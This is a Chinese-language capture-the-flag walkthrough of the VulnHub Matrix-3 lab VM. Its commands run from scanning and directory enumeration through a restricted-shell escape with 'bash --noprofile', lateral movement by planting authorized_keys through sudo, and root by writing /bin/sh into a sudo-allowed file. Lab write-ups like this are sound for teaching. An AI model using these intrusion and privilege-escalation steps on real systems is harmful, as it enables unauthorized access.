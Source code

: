 # Matrix-3

## 环境

虚拟机平台：Oracle VM VirtualBox

攻击机：Kali（IP：192.168.56.102）

靶机：Matrix-3（IP：192.168.56.109）

下载：https://www.vulnhub.com/entry/matrix-3,326/

## Let's go

```
nmap -p- -A 192.168.56.109
```

![](./img/Matrix3-01.png)

> **审查网页发现兔子，并且提供了有用的信息**

![](./img/Matrix3-02.png)

![](./img/Matrix3-03.png)

> **由于目录太深这里我直接使用wget递归下载**

```
wget -r -l 0 http://192.168.56.109/Matrix/
tree Matrix | grep -v index.html
```

![](./img/Matrix3-04.png)

```
file secret.gz
cat secret.gz
```

![](./img/Matrix3-05.png)

![](./img/Matrix3-06.png)

> **使用用户名和密码成功登录7331端口，然而并没有发现什么信息，我们进行枚举**

```
dirb http://192.168.56.109:7331/ -u admin:passwd
```

![](./img/Matrix3-07.png)

![](./img/Matrix3-08.png)

> **发现是DOS文件，使用IDA查看得到 guest:7R1n17yN30**

![](./img/Matrix3-09.png)



> **尝试SSH登陆发现得到受限shell，因此使用-t "bash --noprofile"重新登陆**

```
ssh guest@192.168.56.109 -p 6464 -t "bash --noprofile"
```

![](./img/Matrix3-10.png)

```
sudo -l
```

![](./img/Matrix3-11.png)

```
sudo -u trinity cp authorized_keys /home/trinity/.ssh/authorized_keys
ssh trinity@127.0.0.1 -p 6464
```

![](./img/Matrix3-12.png)

```
sudo -l
```

![](./img/Matrix3-13.png)

> **然而并没有发现该文件，因此我们可以创建并执行它**

```
echo '/bin/sh' > oracle
chmod 777 oracle
sudo ./oracle
```

![](./img/Matrix3-14.png)

```
cat flag.txt
```

![](./img/Matrix3-15.png)